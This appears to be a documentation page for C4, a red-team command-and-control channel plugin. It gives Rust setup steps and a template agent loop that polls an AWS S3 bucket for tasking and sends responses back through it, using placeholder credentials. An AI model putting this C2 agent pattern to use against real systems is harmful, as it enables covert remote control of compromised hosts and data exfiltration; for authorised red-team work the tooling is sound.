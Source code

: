 # Rust

For team servers and/or agents written in Rust, an example is included below that can be used as a rough template.

## Usage

1. Add the necessary dependencies to your Rust project's Cargo.toml file

```
[dependencies]
extism = "1.10.0"
serde = { version = "1.0", features = ["derive"] }
serde_json = "1.0"
```

2. Place C4 plugin (.wasm file) in `src/` folder and name it `c4.wasm` (name used in example). The c4 module will be compiled into the rust binary.

3. Compile the software using Rust's standard cargo build:

```
cargo build --release
```

Thorough documentation on the Python Extism SDK package can be found at <https://github.com/extism/extism/tree/main/runtime>

The full example can be found at <https://github.com/scottctaylor12/C4/tree/main/examples/rust/>

## Example

```rust
use extism::*;
use serde::{Deserialize, Serialize};
use std::thread;
use std::time::Duration;

#[derive(Deserialize, Serialize)]
struct C4Output {
    success: bool,
    status: String,
    messages: Option<Vec<String>>,
}

fn main() {
    let mut plugin: Plugin = init();

    loop {
        // Receive messages from AWS S3 bucket
        let rec_msg = r#"{"action":"receive","params":{"agent_id":"12345","access_key":"AKIAAAAAAAAAAA","secret_key":"SECRET","region":"us-east-1","bucket":"c4-testing"}}"#;
        
        match plugin.call::<&str, Vec<u8>>("c4", rec_msg) {
            Ok(out) => {
                match serde_json::from_slice::<C4Output>(&out) {
                    Ok(c4_output) => {
                        if let Some(ref messages) = c4_output.messages {
                            if !messages.is_empty() && c4_output.success {
                                // Process the received messages
                                println!("{:?}", messages);
                            }
                        }
                    }
                    Err(e) => {
                        eprintln!("Failed to parse JSON response: {}", e);
                    }
                }
            }
            Err(e) => {
                eprintln!("Plugin call failed: {}", e);
            }
        }

        // let's pretend we received a "whoami" message
        // Send a response back to the S3 bucket with the "server" as the recipient
        let message = "scottctaylor12"; // realistically, the message is probably a format specific to your C2
        let send_msg = format!(
            r#"{{"action":"send","params":{{"agent_id":"12345","message":"{}","access_key":"AKIAAAAAAAAAAA","secret_key":"SECRET","region":"us-east-1","bucket":"c4-testing"}}}}"#,
            message
        );
        
        match plugin.call::<&str, Vec<u8>>("c4", &send_msg) {
            Ok(out) => {
                match serde_json::from_slice::<C4Output>(&out) {
                    Ok(c4_output) => {
                        if c4_output.success {
                            println!("Message sent successfully");
                        } else {
                            println!("Failed to send message: {}", c4_output.status);
                        }
                    }
                    Err(e) => {
                        eprintln!("Failed to parse JSON response: {}", e);
                    }
                }
            }
            Err(e) => {
                eprintln!("Plugin call failed: {}", e);
            }
        }

        thread::sleep(Duration::from_secs(10)); // typical sleep time
    }
}

fn init() -> Plugin {
    let wasm_bytes = include_bytes!("c4.wasm");
    let wasm = Wasm::data(wasm_bytes);
    let manifest = Manifest::new([wasm])
        .with_allowed_hosts(vec!["*".to_string()].into_iter());
    let plugin = Plugin::new(&manifest, [], true).unwrap();
    return plugin;
}
```